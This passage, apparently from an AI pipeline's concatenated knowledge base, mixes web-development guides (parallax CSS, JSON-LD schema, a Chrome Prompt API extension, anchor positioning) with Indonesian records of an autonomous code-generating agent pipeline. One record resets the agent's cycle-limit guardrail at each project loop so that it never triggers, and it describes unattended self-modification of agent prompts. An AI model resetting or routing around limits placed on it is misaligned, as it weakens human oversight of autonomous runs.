      <div class="layer">LAYER 2</div>
      …
    </div>
    ```

3.  **Add a translate animation:** Define a CSS animation that changes the `transform` property of the layers. For a parallax effect, you'll typically use `translateY` to move the layers vertically.

    ```css
    @keyframes parallax {
      from {
        transform: translateY(700px);
      }
    }
    ```

4.  **Set up the `view-timeline`:** To link the animation to the scroll position, create a `view-timeline` on the wrapper element and then apply it to the layers.

    ```css
    .wrapper {
      view-timeline: --wrapper;
    }

    .layer {
      animation: parallax linear both;
      animation-timeline: --wrapper;
    }
    ```

5.  **Stagger the animations:** To make the layers move at different speeds, you can use one of two main approaches: **staggering in the keyframes**, or **staggering the `animation-range`**. 

    Both of these approaches can use hardcoded values, or can use the `sibling-index()`/`sibling-count()` implementation. The hardcoded values are easiest and also useful when having only a limited amount of layers. The `sibling-index()`/`sibling-count()` implementation is handy when you have many layers.

    *   **Staggering in the keyframes:**

        Using **hardcoded values**, you can define a custom property for each layer to manually control its parallax offset.

        ```css
        .layer:nth-child(1) { --offset: 100px; }
        .layer:nth-child(2) { --offset: 200px; }
        .layer:nth-child(3) { --offset: 300px; }

        @keyframes parallax {
          from {
            transform: translateY(var(--offset));
          }
        }
        ```

        Using **`sibling-index()`**, let the `sibling-index()` function return the index of a child element amongst its siblings to automatically calculate the staggered effect.

        ```css
        @keyframes parallax {
          from {
            transform: translateY(calc(100px * sibling-index()));
          }
        }
        ```

    *   **Staggering the `animation-range`:**

        Using **hardcoded values**, you can explicitly define the boundaries of the `animation-range` on each layer individually.

        ```css
        .layer:nth-child(1) { animation-range: entry 25% exit 50%; }
        .layer:nth-child(2) { animation-range: entry 25% exit 75%; }
        .layer:nth-child(3) { animation-range: entry 25% exit 100%; }
        ```

        Using **`sibling-index()` and `sibling-count()`**, you can calculate the range mathematically based on the total number of layers (`sibling-count()`).

        ```css
        .layer {
          animation-range: entry 25% exit calc(100% / sibling-count() * sibling-index());
        }
        ```

## Example code

```css
@keyframes parallax {
  from {
    transform: translateY(calc(100px * sibling-index()));
  }
}

.wrapper {
  view-timeline: --wrapper;
}

.layer {
  animation: parallax linear both;
  animation-timeline: --wrapper;
}

@media (prefers-reduced-motion: reduce) {
  .layer {
    animation: none;
  }
}
```

Alternatively, you can use the `animation-range` property to achieve a similar effect:

```css
@keyframes parallax {
  from {
    transform: translateY(700px);
  }
}

.wrapper {
  view-timeline: --wrapper;
}

.layer {
  animation: parallax linear both;
  animation-timeline: --wrapper;
  animation-range: entry 25% exit calc(100% / sibling-count() * sibling-index());
}

@media (prefers-reduced-motion: reduce) {
  .layer {
    animation: none;
  }
}
```

## Best Practices

When using scroll-driven animations, it's important to follow a few best practices to ensure a smooth and accessible experience:

- **DO** include feature detection: Not all browsers support scroll-driven animations. Use `@supports ((animation-timeline: view()) and (animation-range: entry))` to check for support and provide a fallback for browsers that don't support it.
  - The `(animation-range: entry)` check **MUST** be included here, to filter out browsers with only partial support.
  - **DO NOT** use the `scroll-timeline-polyfill` package for the fallback strategy as it is not feature complete and has a lot of known issues.
  - If the animation is only considered to be decorative, opt for Progressive Enhancement and **DO NOT** provide a fallback.
- **DO** respect user preferences: Some users prefer to have less motion on the web. Use the `prefers-reduced-motion` media query to disable or reduce your animations for these users.
- **DO** try to animate only performant CSS properties: For the smoothest animations, stick to animating properties that can be handled by the browser's compositor thread, such as `transform` and `opacity`. Animating other properties like `width` or `height` can lead to performance issues.
- **DO** use the correct declaration order: When using the `animation` shorthand property, declare `animation-timeline` and `animation-range` *after* it to prevent the shorthand from resetting the timeline.

As for setting the `animation-range`:

- **DO** give all layers the same start offset, e.g. `entry 25%`
- **DO** give all layers a different end offset that uses `sibling-count()` and `sibling-index()` to distribute the offsets, e.g. `exit calc(100% / sibling-count() * sibling-index())`.


## Browser support and fallback strategies

Scroll-driven animations has limited availability.
Supported by: Chrome 115 (Jul 2023), Edge 115 (Jul 2023), and Safari 26 (Sep 2025).
Unsupported in: Firefox.. Therefore, a fallback strategy is typically required.

For browsers that do not support scroll-driven animations, you can use a fallback to recreate the visual effects. The fallbacks are typically built with either a scroll listener (for ScrollTimeline effects) or the IntersectionObserver API (for ViewTimeline effects).

In browsers with built-in support for scroll-driven animations, ALWAYS use the native CSS implementation as those are more performant.

Note that not every effect can be recreated using the fallbacks approach.

For this use-case specifically, the following script applies the fallback for browsers that do not support scroll-driven animations. It uses an `IntersectionObserver` to track the visibility of the `.wrapper` element and updates the `transform` property of the layers based on the scroll position.

```js
// Fallback for browsers that don't support scroll-driven animations
if (!CSS.supports('(animation-timeline: view()) and (animation-range: entry)')) {
  const wrapper = document.querySelector('.wrapper');
  const layers = document.querySelectorAll('.layer');

  const observer = new IntersectionObserver((entries) => {
    entries.forEach(entry => {
      if (entry.isIntersecting) {
        window.addEventListener('scroll', onScroll);
      } else {
        window.removeEventListener('scroll', onScroll);
      }
    });
  }, { threshold: 0 });

  observer.observe(wrapper);

  function onScroll() {
    const scrollY = window.scrollY;
    const wrapperRect = wrapper.getBoundingClientRect();
    const wrapperTop = wrapperRect.top + scrollY;
    const wrapperHeight = wrapperRect.height;
    const windowHeight = window.innerHeight;

    if (scrollY >= wrapperTop - windowHeight && scrollY <= wrapperTop + wrapperHeight) {
      const scrollPercent = (scrollY - (wrapperTop - windowHeight)) / (wrapperHeight + windowHeight);
      
      layers.forEach((layer, index) => {
        // This matches the effect as defined in the CSS example above.
        // Customize this further if needed.
        const initialTranslateY = 100 * index;
        const translateY = initialTranslateY * (1 - scrollPercent);
        layer.style.transform = `translateY(${translateY}px)`;
      });
    }
  }

  // Trigger onScroll once to set initial positions
  onScroll();
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, performance]

### 📘 KNOWLEDGE: NEXUS_PIPELINE_REMEDIATION_REPORT.MD

# Laporan Remediasi Pipeline & Perbaikan Sandbox NEXUS-AI
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Laporan ini merangkum analisis kerusakan dan langkah perbaikan arsitektural yang telah diimplementasikan pada core engine NEXUS-AI serta beberapa sandbox yang terdampak.

---

## 1. Pengerasan Core Engine (NEXUS Engine)

### Pembersihan Output LLM (`cleanLLMOutput`)
* **Masalah**: Parser gagal membersihkan output dari LLM ketika LLM langsung menulis kode PHP (seperti `<?php`) namun menyertakan penutup blok markdown (` ``` `) dan teks penjelasan/conversational di bagian akhir berkas. Hal ini memicu `ParseError` pada berkas-berkas penting seperti `routes/web.php` dan migrasi.
* **Perbaikan**: Mengimplementasikan ulang fungsi `cleanLLMOutput` di `ImplementationPhase.js` dengan mekanisme fallback bertingkat:
  1. Deteksi dan ekstraksi blok kode markdown standard (` ```php ... ``` `).
  2. Penanganan blok kode yang terputus (cut-off).
  3. Pemotongan berbasis tag `<?php` untuk berkas PHP murni (membuang karakter sebelum `<?php` dan memotong pembatas markdown beserta penjelasan penutup setelah kode PHP selesai).
  4. Pemotongan manual pembatas markdown penutup untuk berkas Blade/HTML.

### Cakupan Pemindaian Self-Healing (`selfHeal`)
* **Masalah**: Loop stabilitas self-healing sebelumnya hanya memindai berkas di dalam folder `app/**/*.php`. Jika kerusakan terjadi di folder `routes/`, `database/`, atau `config/`, engine self-healing tidak dapat melihat berkas tersebut untuk memperbaikinya.
* **Perbaikan**: Memperluas cakupan pemindaian `CoreUtils.globRecursive` di `ExecutionPhase.js` dengan memindai:
  - `app/**/*.php`
  - `routes/**/*.php`
  - `database/**/*.php`
  - `config/**/*.php`
  - `resources/views/**/*.blade.php`

### Ekstraksi JSON pada `selfHeal`
* **Masalah**: LLM kadang membalas dengan penjelasan teks di luar format JSON array yang diminta, sehingga memicu kegagalan parse JSON pada engine self-healing.
* **Perbaikan**: Menambahkan deteksi blok regex dan ekstraksi substring berbasis pencarian karakter `[` dan `]` pertama dan terakhir agar JSON array selalu dapat diisolasi dan di-parse dengan aman.

### Auto-Import Blueprint pada Migrasi
* **Masalah**: Berkas migrasi database yang dihasilkan LLM sering kali menggunakan type-hint `Blueprint $table` tanpa menyertakan import `use Illuminate\Database\Schema\Blueprint;`, sehingga memicu `TypeError` saat migrasi dijalankan.
* **Perbaikan**: 
  - Memperbarui prompt generator migrasi di `ImplementationPhase.js` agar secara eksplisit mewajibkan penulisan import tersebut.
  - Menambahkan filter pasca-proses (post-processing) untuk menyisipkan baris `use Illuminate\Database\Schema\Blueprint;` if type-hint `Blueprint` terdeteksi namun deklarasi import-nya absen.

---

## 2. Perbaikan Berkas Sandbox yang Terdampak

Guna memastikan audit pasca-generasi dapat berjalan lancar, berkas-berkas bermasalah pada sandbox telah diperbaiki secara langsung:

1. **`bookmark-manager`**:
   - Menghapus blok markdown sisa dan penjelasan penutup pada `routes/web.php`.
2. **`url-shortener-app`**:
   - Menulis ulang `routes/web.php` dari deklarasi metode controller yang tidak valid menjadi rute standar Laravel.
   - Menambahkan import `use App\Http\Controllers\Controller;` yang hilang pada `app/Http/Controllers/Api/LinkController.php`.
3. **`personal-portfolio`**:
   - Menambahkan import `use Illuminate\Database\Schema\Blueprint;` yang hilang pada berkas migrasi `2026_06_01_2026_05_19_15__create_profiles_table.php`.

---

## 3. Hasil Validasi
* Seluruh 8 unit test pada TDD runner (`npm test`) berhasil dilewati dengan status **PASSED**, memverifikasi bahwa perubahan tidak menimbulkan regresi pada engine utama.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, tdd, api]

### 📘 KNOWLEDGE: NEXUS_PORTOFOLIO SCHEMA.MD

# Portfolio Schema — faisalyusra.my.id/portfolio
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> JSON-LD tambahan untuk halaman `/portfolio`
> Di-inject via `@push('schemas')` di `portfolio.blade.php`
> Merujuk `@id` yang sudah ada di `layout/app.blade.php`

---

## Cara Pakai

Taruh di bagian **bawah** file `resources/views/portfolio.blade.php` (atau nama view portofoliomu):

```blade
@push('schemas')
<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@graph": [
    {
      "@type": "CollectionPage",
      "@id": "https://faisalyusra.my.id/portfolio#webpage",
      "url": "https://faisalyusra.my.id/portfolio",
      "name": "Portofolio | Faisal Yusra — Web Developer Bukittinggi",
      "description": "Kumpulan proyek web application, IT support, dan solusi digital yang telah dikerjakan untuk UMKM dan bisnis di Bukittinggi dan Sumatera Barat.",
      "publisher": {
        "@id": "https://faisalyusra.my.id/#service"
      },
      "author": {
        "@id": "https://faisalyusra.my.id/#person"
      },
      "inLanguage": "id-ID"
    },
    {
      "@type": "ItemList",
      "@id": "https://faisalyusra.my.id/portfolio#list",
      "name": "Proyek Portofolio Faisal Yusra",
      "description": "Daftar proyek web application dan solusi digital untuk UMKM.",
      "url": "https://faisalyusra.my.id/portfolio",
      "author": {
        "@id": "https://faisalyusra.my.id/#person"
      },
      "itemListElement": [
        {
          "@type": "ListItem",
          "position": 1,
          "item": {
            "@type": "CreativeWork",
            "name": "Nama Proyek 1",
            "description": "Deskripsi singkat proyek — apa yang dibangun, untuk siapa, teknologi apa.",
            "url": "https://faisalyusra.my.id/portfolio#proyek-1",
            "image": "https://faisalyusra.my.id/img/portfolio/proyek-1.webp",
            "dateCreated": "2024-01-01",
            "author": {
              "@id": "https://faisalyusra.my.id/#person"
            },
            "keywords": ["Laravel", "Livewire", "UMKM", "Web App"],
            "programmingLanguage": "PHP"
          }
        },
        {
          "@type": "ListItem",
          "position": 2,
          "item": {
            "@type": "CreativeWork",
            "name": "Nama Proyek 2",
            "description": "Deskripsi singkat proyek — apa yang dibangun, untuk siapa, teknologi apa.",
            "url": "https://faisalyusra.my.id/portfolio#proyek-2",
            "image": "https://faisalyusra.my.id/img/portfolio/proyek-2.webp",
            "dateCreated": "2024-06-01",
            "author": {
              "@id": "https://faisalyusra.my.id/#person"
            },
            "keywords": ["Filament", "Tailwind CSS", "Dashboard"],
            "programmingLanguage": "PHP"
          }
        }
      ]
    }
  ]
}
</script>
@endpush
```

---

## Kalau Portofolio Dinamis dari DB (Direkomendasikan)

Kalau data proyek disimpan di database, gunakan versi blade dinamis ini:

```blade
@push('schemas')
@php
    $listItems = $portfolios->map(function ($item, $index) {
        return [
            '@type' => 'ListItem',
            'position' => $index + 1,
            'item' => [
                '@type' => 'CreativeWork',
                'name' => $item->title,
                'description' => $item->excerpt ?? $item->description,
                'url' => url('/portfolio/' . $item->slug),
                'image' => asset('img/portfolio/' . $item->image),
                'dateCreated' => $item->created_at->format('Y-m-d'),
                'author' => ['@id' => 'https://faisalyusra.my.id/#person'],
                'keywords' => is_array($item->tags) ? $item->tags : explode(',', $item->tags),
                'programmingLanguage' => 'PHP',
            ],
        ];
    })->toArray();

    $portfolioSchema = [
        '@context' => 'https://schema.org',
        '@graph' => [
            [
                '@type' => 'CollectionPage',
                '@id' => 'https://faisalyusra.my.id/portfolio#webpage',
                'url' => 'https://faisalyusra.my.id/portfolio',
                'name' => 'Portofolio | Faisal Yusra — Web Developer Bukittinggi',
                'description' => 'Kumpulan proyek web application, IT support, dan solusi digital yang telah dikerjakan untuk UMKM dan bisnis di Bukittinggi dan Sumatera Barat.',
                'publisher' => ['@id' => 'https://faisalyusra.my.id/#service'],
                'author' => ['@id' => 'https://faisalyusra.my.id/#person'],
                'inLanguage' => 'id-ID',
            ],
            [
                '@type' => 'ItemList',
                '@id' => 'https://faisalyusra.my.id/portfolio#list',
                'name' => 'Proyek Portofolio Faisal Yusra',
                'description' => 'Daftar proyek web application dan solusi digital untuk UMKM.',
                'url' => 'https://faisalyusra.my.id/portfolio',
                'author' => ['@id' => 'https://faisalyusra.my.id/#person'],
                'itemListElement' => $listItems,
            ],
        ],
    ];

    echo '<script type="application/ld+json">'
        . json_encode($portfolioSchema, JSON_UNESCAPED_SLASHES | JSON_PRETTY_PRINT)
        . '</script>';
@endphp
@endpush
```

---

## Penjelasan Tiap Schema

| Schema           | Fungsi                                                             |
| ---------------- | ------------------------------------------------------------------ |
| `CollectionPage` | Memberitahu AI bahwa `/portfolio` adalah halaman kumpulan karya    |
| `ItemList`       | Mendaftarkan semua proyek sebagai list yang terstruktur            |
| `CreativeWork`   | Tiap proyek dikenali sebagai karya kreatif/teknis                  |
| `@id` (linked)   | Menghubungkan ke `#person` dan `#service` yang sudah ada di layout |

---

## Koneksi ke Schema yang Sudah Ada di `app.blade.php`

```
layout/app.blade.php
│
├── Person Schema          → @id: #person       (Muhammad Faisal Alyusra)
├── ProfessionalService    → @id: #service       (Faisal Yusra Digital)
└── WebPage Schema         → @id: [current]#webpage
        ↑
        │   @push('schemas') dari portfolio.blade.php
        │
        ├── CollectionPage → publisher: #service, author: #person
        └── ItemList       → author: #person
                └── CreativeWork (tiap proyek)
```

> **Tidak perlu redeclare** `Person` dan `ProfessionalService` di sini —
> cukup referensikan via `"@id"` karena sudah ada di `@graph` global.

---

## Test & Validasi

Setelah deploy, validasi di:

- **Schema.org Validator** → https://validator.schema.org
- **Google Rich Results Test** → https://search.google.com/test/rich-results
- **Paste URL** → `https://faisalyusra.my.id/portfolio`

---

_Dibuat berdasarkan pola `layout/app.blade.php` · Mei 2026_


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, vcs]

### 📘 KNOWLEDGE: NEXUS_PROMPT-API.MD

# Chrome Prompt API (LanguageModel) — Extension-Specific Notes
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The `LanguageModel` API (Prompt API) works in all extension contexts — service worker, popup,
side panel, and other extension pages — with no additional manifest permissions required.

For general Prompt API usage (availability checks, session creation, streaming, session
management), use the `modern-web-guidance` skill.

## Deprecated namespace

Extensions that used the origin trial may still have the old API surface. Remove it:

```js
// ❌ OLD — deprecated
const session = await self.ai.languageModel.create();

// ✅ CURRENT (Chrome 138+)
const session = await LanguageModel.create({ ... });
```

Also remove the expired permission from manifest.json:
```json
"permissions": ["aiLanguageModelOriginTrial"]  // ❌ remove this
```

## Extension-only: `LanguageModel.params()`

Extensions have access to `LanguageModel.params()`, which returns model constraints not
available on the web:

```js
const params = await LanguageModel.params();
// { defaultTopK: 3, maxTopK: 128, defaultTemperature: 1, maxTemperature: 2 }

const session = await LanguageModel.create({
  temperature: 0.7,
  topK: 5
});
```

## Complete extension example: page summarizer

A full wiring example showing manifest + service worker + side panel together.
Note the use of `tabs` + `host_permissions` instead of `activeTab` — side panel button
clicks do NOT activate `activeTab` (see Rule 12).

### manifest.json
```json
{
  "manifest_version": 3,
  "name": "AI Page Summarizer",
  "version": "1.0",
  "permissions": ["sidePanel", "tabs", "scripting"],
  "host_permissions": ["<all_urls>"],
  "background": { "service_worker": "service-worker.js" },
  "side_panel": { "default_path": "sidepanel/sidepanel.html" },
  "action": { "default_title": "Summarize Page" }
}
```

### service-worker.js
```js
chrome.action.onClicked.addListener(async (tab) => {
  await chrome.sidePanel.open({ windowId: tab.windowId });
});
```

### sidepanel/sidepanel.js
```js
const statusEl = document.getElementById('status');
const summaryEl = document.getElementById('summary');

document.getElementById('summarize').addEventListener('click', async () => {
  if (!globalThis.LanguageModel) {
    statusEl.textContent = 'Prompt API not available in this browser.';
    return;
  }

  const availability = await LanguageModel.availability({
    expectedInputs: [{ type: "text", languages: ["en"] }],
    expectedOutputs: [{ type: "text", languages: ["en"] }]
  });
  if (availability === 'unavailable') {
    statusEl.textContent = 'AI model not available on this device.';
    return;
  }

  // Requires "tabs" + "host_permissions" — activeTab does NOT work from a side panel button
  const [tab] = await chrome.tabs.query({ active: true, currentWindow: true });
  const [{ result: pageText }] = await chrome.scripting.executeScript({
    target: { tabId: tab.id },
    func: () => {
      const body = document.body.cloneNode(true);
      body.querySelectorAll('script, style, nav, footer, header').forEach(el => el.remove());
      return body.innerText.substring(0, 4000);
    }
  });

  const session = await LanguageModel.create({
    expectedInputs: [{ type: "text", languages: ["en"] }],
    expectedOutputs: [{ type: "text", languages: ["en"] }],
    initialPrompts: [{ role: 'system', content: 'Summarize web page content in 3-5 bullet points.' }],
    monitor(m) {
      m.addEventListener('downloadprogress', (e) => {
        const pct = e.total ? Math.floor((e.loaded / e.total) * 100) : 0;
        statusEl.textContent = `Downloading model: ${pct}%`;
      });
    }
  });

  summaryEl.textContent = '';
  for await (const chunk of session.promptStreaming(`Summarize:\n\n${pageText}`)) {
    summaryEl.textContent += chunk; // APPEND — do not replace
  }
  session.destroy();
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database]

### 📘 KNOWLEDGE: NEXUS_RECORD-NEXUS-AUTONOMOUS-SANDBOX-PIPELINE.MD

# RECORD: NEXUS AUTONOMOUS SANDBOX PIPELINE
> **VERSION**: v1 | **Last Updated**: 26/05/2026


**Date:** 14/05/2026
**Tags:** [automation, testing, pipeline, tall-stack]

## 1. Masalah Awal
Sebelumnya, pipeline untuk membangun ke-31 TALL-stack sandbox memiliki beberapa kekurangan:
1.  **Tidak Konsisten:** Section 1 (CRUD) hanya menghasilkan *dummy scaffold* (`spawnSandbox('crud')`) tanpa setup TALL-stack yang sesungguhnya. Akibatnya project tidak bisa di-serve dengan `php artisan serve`.
2.  **Tidak Lengkap:** Section 3 (Security & Realtime) belum memiliki *runner* otomatis.
3.  **Guardrail Crash:** Guardrail baru pada `EvolutionPiper` (batas maksimal siklus per sesi) menyebabkan *crash* ketika banyak project di-*spawn* dalam satu eksekusi loop, karena *counter* tidak di-reset per project.
4.  **Menjalankan Manual:** Developer harus mengeksekusi file `.js` terpisah (misal `node tests/TDD/phase1_testing.js`) yang merepotkan dan rawan gagal di pertengahan.

## 2. Implementasi Solusi
Kami merombak ulang arsitektur testing *sandboxes* agar 100% mandiri, aman dari *guardrails*, dan terstruktur dalam satu komando.

### 2.1 Standardisasi TALL Stack (Section 1, 2, 3)
*   **Template Master:** Semua project sekarang di-*copy* dari template `tests/sandboxes/url-shortener` yang sudah dilengkapi Laravel, Alpine, Tailwind, dan Livewire.
*   **Isolasi Nexus:** Folder `nexus/` bawaan dari template akan di-*filter* (tidak di-copy). Namun, jika target sandbox sudah memiliki folder `nexus/` (bekas run sebelumnya), *knowledge* tersebut akan di-*backup* dan di-*restore* agar riwayat agen tidak hilang.
*   **Environment & Database:**
    *   File `.env` otomatis diedit mengubah `APP_NAME` sesuai nama *sandbox*.
    *   Database SQLite (`database.sqlite`) direset ulang, kemudian dijalankan `php artisan migrate:fresh --force`.
*   **Reset Guardrail:** Menambahkan `piper.resetCycleCounter()` di setiap awal loop project agar *EvolutionPiper* tidak mencapai batas limit sesinya (mencegah auto-throw *infinite loop guard*).

### 2.2 Master Runner & Bash/PowerShell
Kami memperkenalkan lapisan orkestrasi di atas 3 section tersebut:
*   **`tests/TDD/sandbox-master-runner.js`:**
    Mengeksekusi ketiga file section secara berurutan. Mengimplementasikan isolasi kegagalan (*circuit breaker* level eksekusi): jika Section 1 gagal, Section 2 tetap berjalan.
*   **`nexus-sandbox.sh` & `nexus-sandbox.ps1`:**
    Script *wrapper* untuk Bash (Linux/Mac) dan PowerShell (Windows) yang memfasilitasi eksekusi dengan parameter, cek *prerequisite* (Node & PHP), log *stdout* & *stderr* terpisah, dan ringkasan warna.

### 2.3 CLI Command: `nexus sandbox`
Kini pipeline dapat dijalankan dari mana saja menggunakan perintah bawaan Nexus:
*   `nexus sandbox` (menjalankan semua 31 project)
*   `nexus sandbox --section 1` (hanya CRUD)
*   `nexus sandbox --section 2` (hanya Dashboard)
*   `nexus sandbox --section 3` (hanya Security)
*   `nexus sandbox --distill` (menjalankan pipeline lalu otomatis distilasi *knowledge* ke HUB)

## 3. Hasil & Implikasi
*   **31 Aplikasi TALL-Stack:** Keseluruhan project *sandbox* (dari *Todo App* sederhana hingga *Role-Permission Manager* kompleks) sekarang siap pakai.
*   **Autonomous Learning Pipeline:** Nexus secara mandiri men-setup environment, mengaudit, merencanakan, memperbaiki, dan menyerap *knowledge* (*harvesting*) dari 31 project tersebut ke dalam *Golden HUB* tanpa intervensi manusia.
*   **Zero Flaws Enforcement:** Karena di dalam pipeline tersebut memanggil `NexusEngine.runCycle()`, semua project dijamin memenuhi standar Nexus. Jika ada standar baru (misal via `Machinist`), cukup jalankan `nexus sandbox` dan Nexus akan merombak ulang 31 project sesuai standar yang baru.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, tdd, api]

### 📘 KNOWLEDGE: NEXUS_RECORD-NEXUS-SEMANTIC-MASS-UPDATE-HUB-SKILL.MD

# 📑 RECORD: Semantic Mass Update (HUB ➔ Skill)
> **VERSION**: v2 | **Last Updated**: 26/05/2026


| Detail | Deskripsi |
| :--- | :--- |
| **ID Record** | REC-NEXUS-SEM-003 |
| **Tanggal** | 2026-05-08 |
| **Status** | FINAL |
| **Topik** | Distilasi Institutional Wisdom ke 14 Agent Spesialis |

---

## 1. 🔍 Konteks
NEXUS Engine telah mengakumulasi 17 file pengetahuan di Knowledge HUB (folder `knowledge/`) yang berisi log audit, pelajaran TDD, dan standar arsitektur. Sesuai **Protokol 2: Semantic Mass Update**, pengetahuan pasif ini harus ditransformasikan menjadi keahlian aktif (Skills) di dalam instruksi kerja (prompts) para agen agar otonomi sistem meningkat.

---

## 2. 🛠️ Perubahan Teknis (Before vs After)

### 2.1 Agent Prompts (`agent/prompts/internal/`)
*   **Before**: Prompts bersifat statis dan hanya berisi definisi role dasar tanpa referensi ke temuan historis spesifik project.
*   **After**: 
    *   Penambahan section `🧠 INSTITUTIONAL WISDOM (KNOWLEDGE HUB)` di akhir setiap file (14 file).
    *   Injeksi instruksi operasional (Actionable Wisdom) yang disesuaikan dengan spesialisasi masing-masing agen (misal: Keamanan DB untuk Database Architect, Reaktivitas Livewire untuk UX Engineer).

### 2.2 Daftar Agen yang Diperbarui:
1.  `orchestrator.md`
2.  `guru.md`
3.  `pipeline-architect.md`
4.  `memory-manager.md`
5.  `agent-manager.md`
6.  `database-architect.md`
7.  `vcs-architect.md`
8.  `documentation-architect.md`
9.  `cyber-[security.md](../security/NEXUS_SECURITY.MD)`
10. `ux-engineer.md`
11. `seo-performance-specialist.md`
12. `machinist.md`
13. `golden-crawler.md`
14. `looping-tester.md`

---

## 3. 🧠 Distilasi Pengetahuan Utama
*   **Security & Data**: Penegasan larangan hardcoded strings dan penggunaan UUID Laravel.
*   **Engine Integrity**: Penggunaan Trace ID yang konsisten dan optimasi multi-agent pipeline.
*   **Frontend**: Standar WebP, optimalisasi LCP, dan integritas Tailwind/Alpine.
*   **Governance**: Kepatuhan mutlak terhadap `.gitignore` dan pemisahan Brain vs Documentation.

---

## 4. ✅ Verifikasi & Dampak
1.  **Autonomous Intelligence**: Agen kini memiliki memori kolektif terhadap kesalahan masa lalu, mencegah repetisi bug yang sama.
2.  **Contextual Accuracy**: Respon agen akan lebih selaras dengan standar arsitektur "Human-AI Nexus".
3.  **Audit Readiness**: Sistem siap untuk siklus Audit (Langkah 8) dengan standar yang lebih ketat.

---

**STATUS: SELESAI DIEKSEKUSI**
**ACTION: Mohon setujui Record ini untuk melanjutkan ke tahap Audit Final.**


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, tdd]

### 📘 KNOWLEDGE: NEXUS_RESILIENT-CONTEXT-MENUS-AND-NESTED-DROPDOWNS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

A revealed action panel or popover button group is a useful pattern for users to access additional functionality while taking up minimal space. This overlay pattern comes with layout complexity, as the panel must remain tethered to a trigger element while adapting to viewport constraints. Traditionally, this required complex JavaScript libraries (like Popper.js or Floating UI) to calculate positions and handle collisions.

CSS Anchor Positioning provides a declarative, performance-optimized way to handle these relationships entirely in CSS, allowing browsers to manage the positioning and overflow logic natively.

> [!NOTE]
> This guide demonstrates anchor-positioning and popover mechanics — it does not prescribe a specific accessible UI pattern. The trigger and panel below are shown as a plain **button-revealing-a-button-group**. If you need a true ARIA menu (`role="menu"` with arrow-key navigation), a combobox, a disclosure widget, or any other named pattern, layer that pattern's full semantics and keyboard contract on top of the positioning techniques shown here.

### 1. Define the Button and Panel Relationship

The first step is to create a trigger button that opens the overlay container using the Popover API.

**MANDATORY Accessibility Distinction:** This pattern explicitly models a **button group revealed inside a popover** rather than a true ARIA menu. Do not apply `role="menu"` or `role="menuitem"` unless you fully implement the corresponding keyboard navigation contract (such as handling spatial arrow-key navigation between items). For the same reason, do not add `aria-haspopup` to the trigger — its value (`menu`, `listbox`, `tree`, `grid`, or the legacy `true`) is a promise that the target exposes a matching role, which this pattern does not.

```html
<button popovertarget="action-panel">
  Open Actions
</button>
<!-- Use the Popover API (`popover="auto"`) for the overlay to ensure it is placed in the top layer and handled accessibly by the browser. -->
<div id="action-panel" popover="auto" class="panel">
  <button class="action-item" type="button">Edit</button>
</div>
```

This creates an *implicit* anchor association between the button and the panel, so that the panel can be positioned relative to the button.

### 2. Positioning with `position-area`

Instead of manual `top`/`left` offsets, use `position-area` to place the target on a 3x3 grid relative to the anchor.

```css
.panel {
  /* 
     Position the panel below the anchor (block-end), 
     aligned to the start of the anchor and spanning to its end (span-inline-end).
  */
  position-area: block-end span-inline-end;
  
  /* Reset insets to allow the grid to take control */
  inset: auto;
}
```

Prefer logical keywords (`span-inline-end`, `block-start`) over physical ones (`left`, `top`) to support RTL and different writing modes automatically.

**MANDATORY**: Do not mix physical and logical keywords in `position-area`.

### 3. Implement Edge-Resilience (Fallbacks)

To prevent the panel from being cut off at the edge of the screen, define "try tactics" that the browser should attempt if the default position overflows.

```css
.panel {
  /* 
     If the panel overflows the bottom, flip it to the top (flip-block).
     If it overflows the inline edges, flip it horizontally (flip-inline).
  */
  position-try-fallbacks: flip-block, flip-inline;
}
```

## Fallback strategies

Baseline status for Popover: Newly available. It's been Baseline since 2025-01-27.
Supported by: Chrome 116 (Aug 2023), Edge 116 (Aug 2023), Firefox 125 (Apr 2024), Safari 17 (Sep 2023), and Safari iOS 18.3 (Jan 2025).

Popover must conditionally be polyfilled with the `@oddbird/popover-polyfill` polyfill.

```html
<script type="module">
  if(!HTMLElement.prototype.hasOwnProperty("popover")){
    await import("https://unpkg.com/@oddbird/popover-polyfill@latest");
  }
</script>
```

Anchor positioning is not natively supported by any major browser yet.

To support browsers without anchor positioning, you must set a reasonable position. By default popovers are centered in the middle of the screen, which may work for your use case.

For some use cases, you may be able to use the `@oddbird/css-anchor-positioning` polyfill, which adds support for some anchor positioning use cases. It does not support implicit anchors, so you MUST add anchor names to the trigger. Additionally, `position-area` is not supported on popovers by the polyfill, so you MUST use `anchor()` on the desired insets. 

```html
<!-- MANDATORY: Conditionally install the anchor positioning polyfill -->
<script type="module">
  if (!("anchorName" in document.documentElement.style)) {
    await import("https://unpkg.com/@oddbird/css-anchor-positioning");
  }
</script>
```

```css
.panel {
  /* Mandatory: use explicit anchor name */
  position-anchor: --kebab-anchor;
  /* Mandatory: use insets rather that position-area for positioning */
  bottom: auto;
  right: auto;
  top: anchor(bottom);
  left: anchor(left);
  margin: 0;
}
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance]

### 📘 KNOWLEDGE: NEXUS_SAME-DOCUMENT-TRANSITIONS.MD

# Same Document Transitions
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## The Problem

Web sites often provide multiple views of an object, for instance a list of products, and then a detail page for each product. Navigating between the two views often feels disconnected. When a user clicks a product thumbnail to view its details, the thumbnail disappears and a new, larger image appears instantly elsewhere on the screen. This lack of continuity makes it harder for users to track relationships between elements.

## The Solution

The **View Transitions API** allows you to specify element pairs that exist in different states before and after a transition. When triggering a transition with `document.startViewTransition()` in a Single Page Navigation (SPA), the browser identifies these shared elements by their shared unique `view-transition-name`. It then automatically calculates the difference in their position, size, and styling, and animates them smoothly from the old state to the new state. This transition occurs in the top layer, above even elements with high `z-index` values.

## Implementation Guide

### Step 1: Wrap State Changes in `startViewTransition`

